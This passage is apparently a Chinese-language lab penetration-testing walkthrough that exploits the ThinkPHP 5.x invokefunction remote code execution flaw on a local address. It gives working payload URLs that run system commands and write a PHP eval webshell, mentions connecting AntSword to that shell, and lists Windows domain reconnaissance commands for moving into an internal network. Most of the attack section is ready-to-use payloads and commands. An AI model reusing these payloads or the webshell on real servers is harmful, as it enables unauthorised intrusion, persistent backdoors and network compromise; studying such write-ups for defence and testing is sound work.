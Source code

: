> 漏洞描述：由于 thinkphp 对框架中的核心 Requests 类的 method 方法提供了表单请求伪造，该功能利用 `$_POST['_method']` 来传递真实的请求方法。但由于框架没有对参数进行验证，导致攻击者可以设置 `$_POST['_method']='__construct'` 而让该类的变量被覆盖。攻击者利用该方式将 filter 变量覆盖为 system 等函数名，当内部进行参数过滤时便会进行执行任意命令。

报错查看详细版本：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvloOGRphib4yAQcBiangF8Xz9gX3m1Xgk02G6XXV1hfTvyapCns0Iia0CPA/640?wx_fmt=png)

使用 kali 的 searchsploit 查找一下漏洞利用 POC：

```
searchsploit thinkphp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlLGhLEOShPFSM03sWK7icyCcP6vGK5fB9iaxoCrcicPnJfuujTqrrfakTQ/640?wx_fmt=png)

发现最后一个是 thinkphp5.X 版本的 RCE，我们进入该漏洞的文件 46150.txt：

```
cd /usr/share/exploitdb/exploits/php/webappscat 46150.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlPzbcd41PkEebghIBhrPxSYjWaNLh0ow9f4RGZBjuLHd7icOYc2wyvLQ/640?wx_fmt=png)

payload：

```
http://192.168.0.101/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

命令执行成功：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlWV8YOmUpENsKxEf8BeYHyAjWKiaejrp2ZcQjrFugXcTZABhg0BGcQ3w/640?wx_fmt=png)

写入 Webshell：

```
http://192.168.0.101/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[whoami]);?>" > shell.php
```

写入成功：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlcBtsLYxdswjib2qqQnNSrkrL1T4dOpYrCn2ulUHmgSxbIHhbsphEPEg/640?wx_fmt=png)

连接蚁剑：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl7oias9VWKXQQ6oMoCL7ztlE7W7HlicJ8NOXaVPmckjd0icYSt67HUXjCg/640?wx_fmt=png)

攻入内网
----

### 内网信息收集

接下来要做的就是信息收集了，详细的内网信息收集请看我的另一篇文章《内网渗透测试：信息收集与上传下载》，这里我们只做几个有用的信息收集。

```
ipconfig /all   # 查看本机ip，所在域 route print     # 打印路由信息 net view        # 查看局域网内其他主机名 arp -a          # 查看arp缓存 whoami          # 查看当前用户 net start       # 查看开启了哪些服务 net share       # 查看开启了哪些共享  net config workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域 net user                 # 查看本机用户列表 net user /domain         # 查看域用户 net localgroup administrators   # 查看本地管理员组（通常会有域用户） net view /domain         # 查看有几个域 net user 用户名 /domain   # 获取指定域用户的信息 net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作） net group 组名 /domain    # 查看域中某工作组 net group "domain admins" /domain  # 查看域管理员的名字 net group "domain computers" /domain  # 查看域中的其他主机名 net group "domain controllers" /domain  # 查看域控制器（可能有多台）
```
